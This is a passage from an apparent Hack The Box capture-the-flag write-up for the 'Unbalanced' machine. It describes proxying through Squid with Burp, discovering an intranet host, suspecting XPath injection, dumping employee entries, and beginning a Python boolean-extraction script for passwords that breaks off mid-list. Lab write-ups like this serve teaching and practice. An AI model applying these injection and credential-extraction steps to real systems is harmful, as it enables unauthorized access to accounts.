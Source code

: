Using Burp instead of proxying directly from the browser is better because we'll be able to look at the traffic, modify requests, etc. The configuration from in Burp is shown here:

{{< image src="images/image-20200801201823427.png" >}}


We can now reach the intranet site through the Squid proxy. The page has a login form for the Employee Area, some package information below and a non-functional contact form at the bottom of the page.

{{< image src="images/image-20200801202142101.png" >}}


Unfortunately, the login doesn't return anything when we try credentials, it just reloads the same page without an **invalid credentials** error message or other indication that the page works or not. The `http://172.31.179.2/intranet.php` and `http://172.31.179.2/intranet.php` sites are exactly the same and the login form doesn't work either.

However, there's another active host not present in fqdncache that we can find by guessing the name/IP based on the other two entries: `172.31.179.1 / intranet-host1.unbalanced.htb`.

This server is configured differently and does return an invalid credential message when try to connect to it. I tried checking for SQL injection but I couldn't find anything manually or through sqlmap.

{{< image src="images/image-20200801203244623.png" >}}


## XPath injection

After dirbusting the site for additional clues we find an `employees.xml` file which unfortunately we can't access. However this is a hint that we are probably looking at an XML authentication backend instead of SQL, so we should now be thinking about XPath injection.

{{< image src="images/image-20200801204925666.png" >}}


After messing with payloads for a while I found that we can return all the entries by using the following request:

{{< image src="images/image-20200801210131487.png" >}}


```
<div class="w3-container"><h3>   rita       Rita</h3><p>      Fubelli</p><p>Role:       rita@unbalanced.htb</p></div>
<div class="w3-container"><h3>   Jim       Mickelson</h3><p>      jim@unbalanced.htb</p><p>Role:       Web Designer</p></div>
<div class="w3-container"><h3>   Bryan       Angstrom</h3><p>      bryan@unbalanced.htb</p><p>Role:       System Administrator</p></div>
<div class="w3-container"><h3>   Sarah       Goodman</h3><p>      sarah@unbalanced.htb</p><p>Role:       Team Leader</p></div>
```

Now we have the usernames but no password yet.

Here's the boolean script we'll use to extract the password for all 4 accounts:

```python
#!/usr/bin/python3

import requests
import string
from pwn import *

proxies = {
    "http": "10.10.10.200:3128"
}

usernames = [
    "rita",
    "jim",
```